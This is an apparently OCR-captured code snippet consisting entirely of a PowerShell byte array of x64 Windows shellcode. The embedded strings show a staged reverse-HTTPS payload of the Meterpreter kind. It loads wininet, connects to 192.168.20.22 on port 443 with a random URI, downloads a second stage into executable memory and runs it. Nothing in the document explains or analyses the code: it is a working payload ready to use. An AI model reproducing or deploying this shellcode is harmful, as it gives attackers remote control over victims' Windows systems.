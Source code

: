 [Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0
$buf += 0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2
$buf += 0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48
$buf += 0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7
$buf += 0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c
$buf += 0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41
$buf += 0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52
$buf += 0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x66,0x81,0x78
$buf += 0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b
$buf += 0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67
$buf += 0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40
$buf += 0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41
$buf += 0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48
$buf += 0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1
$buf += 0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45
$buf += 0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49
$buf += 0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40
$buf += 0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1
$buf += 0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58
$buf += 0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52
$buf += 0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9
$buf += 0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49
$buf += 0xbe,0x77,0x69,0x6e,0x69,0x6e,0x65,0x74,0x0,0x41
$buf += 0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26
$buf += 0x7,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a
$buf += 0x4d,0x31,0xc0,0x4d,0x31,0xc9,0x53,0x53,0x49,0xba
$buf += 0x3a,0x56,0x79,0xa7,0x0,0x0,0x0,0x0,0xff,0xd5
$buf += 0xe8,0xe,0x0,0x0,0x0,0x31,0x39,0x32,0x2e,0x31
$buf += 0x36,0x38,0x2e,0x32,0x30,0x2e,0x32,0x32,0x0,0x5a
$buf += 0x48,0x89,0xc1,0x49,0xc7,0xc0,0xbb,0x1,0x0,0x0
$buf += 0x4d,0x31,0xc9,0x53,0x53,0x6a,0x3,0x53,0x49,0xba
$buf += 0x57,0x89,0x9f,0xc6,0x0,0x0,0x0,0x0,0xff,0xd5
$buf += 0xe8,0xa6,0x0,0x0,0x0,0x2f,0x51,0x56,0x51,0x75
$buf += 0x4a,0x41,0x7a,0x4f,0x65,0x35,0x4e,0x44,0x44,0x30
$buf += 0x49,0x4e,0x47,0x39,0x4f,0x4c,0x43,0x41,0x74,0x69
$buf += 0x4b,0x72,0x78,0x4d,0x4b,0x46,0x58,0x57,0x48,0x74
$buf += 0x6a,0x31,0x42,0x70,0x75,0x34,0x72,0x5a,0x56,0x42
$buf += 0x69,0x79,0x48,0x53,0x52,0x42,0x47,0x54,0x61,0x6f
$buf += 0x43,0x4c,0x70,0x53,0x4c,0x62,0x67,0x54,0x4b,0x66
$buf += 0x6c,0x30,0x6f,0x45,0x42,0x35,0x36,0x33,0x4a,0x68
$buf += 0x46,0x61,0x6b,0x51,0x71,0x74,0x77,0x79,0x35,0x36
$buf += 0x52,0x7a,0x5a,0x57,0x53,0x59,0x73,0x33,0x77,0x52
$buf += 0x6a,0x58,0x4a,0x58,0x4e,0x69,0x71,0x6c,0x31,0x5f
$buf += 0x44,0x6a,0x68,0x39,0x53,0x79,0x32,0x32,0x53,0x32
$buf += 0x4a,0x45,0x61,0x33,0x39,0x63,0x6b,0x6a,0x49,0x66
$buf += 0x46,0x6d,0x35,0x72,0x4b,0x4a,0x70,0x51,0x74,0x37
$buf += 0x7a,0x5a,0x41,0x52,0x71,0x77,0x6d,0x72,0x43,0x50
$buf += 0x6a,0x66,0x41,0x47,0x59,0x77,0x57,0x70,0x78,0x34
$buf += 0x43,0x58,0x41,0x47,0x43,0x31,0x32,0x55,0x34,0x33
$buf += 0x0,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31
$buf += 0xc9,0x53,0x48,0xb8,0x0,0x32,0xa0,0x84,0x0,0x0
$buf += 0x0,0x0,0x50,0x53,0x53,0x49,0xc7,0xc2,0xeb,0x55
$buf += 0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0xa,0x5f
$buf += 0x48,0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,0x80,0x33
$buf += 0x0,0x0,0x49,0x89,0xe0,0x6a,0x4,0x41,0x59,0x49
$buf += 0xba,0x75,0x46,0x9e,0x86,0x0,0x0,0x0,0x0,0xff
$buf += 0xd5,0x48,0x89,0xf1,0x53,0x5a,0x4d,0x31,0xc0,0x4d
$buf += 0x31,0xc9,0x53,0x53,0x49,0xc7,0xc2,0x2d,0x6,0x18
$buf += 0x7b,0xff,0xd5,0x85,0xc0,0x75,0xc,0x48,0xff,0xcf
$buf += 0x74,0x2,0xeb,0xc0,0xe8,0x56,0x0,0x0,0x0,0x53
$buf += 0x59,0x6a,0x40,0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10
$buf += 0x49,0xc7,0xc0,0x0,0x10,0x0,0x0,0x49,0xba,0x58
$buf += 0xa4,0x53,0xe5,0x0,0x0,0x0,0x0,0xff,0xd5,0x48
$buf += 0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48
$buf += 0x89,0xda,0x49,0xc7,0xc0,0x0,0x20,0x0,0x0,0x49
$buf += 0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x0,0x0
$buf += 0x0,0x0,0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0
$buf += 0x74,0xb2,0x66,0x8b,0x7,0x48,0x1,0xc3,0x85,0xc0
$buf += 0x75,0xd2,0x58,0x58,0xc3,0x58,0x6a,0x0,0x59,0x49
$buf += 0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5
